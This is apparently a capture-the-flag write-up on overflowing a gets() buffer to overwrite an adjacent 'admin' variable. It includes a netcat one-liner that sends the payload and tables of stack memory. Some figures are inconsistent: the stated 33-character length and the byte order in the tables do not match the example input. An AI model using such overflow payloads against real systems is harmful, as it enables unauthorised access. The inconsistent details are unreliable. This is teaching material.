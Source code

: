 
## Writeup

The source [file](../src/vuln.c) contain two variables located on the stack; `name` and `admin`.
`name` is the 32-bytes sized input buffer we are writing into with the vulnerable function `gets()`.
`admin` is our overflow target variable which we want to overwrite with any other value than `"\0"` as input.

The following is a depiction of the stack:

|      Variables |  Hex-values (8 bytes/row) |      Ascii Characters    |
|---------------:|:-------------------------:|:------------------------:|
|            rip |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|            rbp |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|          admin |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|    name[24:32] |  02 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|    name[16:24] |  ff fb 8b 1f 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|     name[8:16] |  d9 45 e6 4a fc 7f 00 00  |  \0  E \0  J \0 \0 \0 \0 |
|      name[0:8] |  64 00 00 00 00 00 00 00  |   d \0 \0 \0 \0 \0 \0 \0 |

Therefore, we need to input 33 characters where the 33rd one is not `"\0"`, e.g.
```bash
echo "0000111122223333444455556666777788889999aaaa<non-zero-bytes>" | nc <host> 9001
```

And this will edit the above table into:

|      Addresses |  Hex-values (8 bytes/row) |     Ascii Characters     |
|---------------:|:-------------------------:|:------------------------:|
|            rip |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|            rbp |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|         &admin |  00 00 00 00  {non-zero}  |  \0 \0 \0 \0 {non-zero} |
|   &name[24:32] |  37 37 37 37 36 36 36 36  |   7  7  7  7  6  6  6  6 |
|   &name[16:24] |  35 35 35 35 34 34 34 34  |   5  5  5  5  4  4  4  4 |
|    &name[8:16] |  33 33 33 33 32 32 32 32  |   3  3  3  3  2  2  2  2 |
|     &name[0:8] |  31 31 31 31 30 30 30 30  |   1  1  1  1  0  0  0  0 |

Compile and run this test [file](dump.c) for a more code and output explanation.
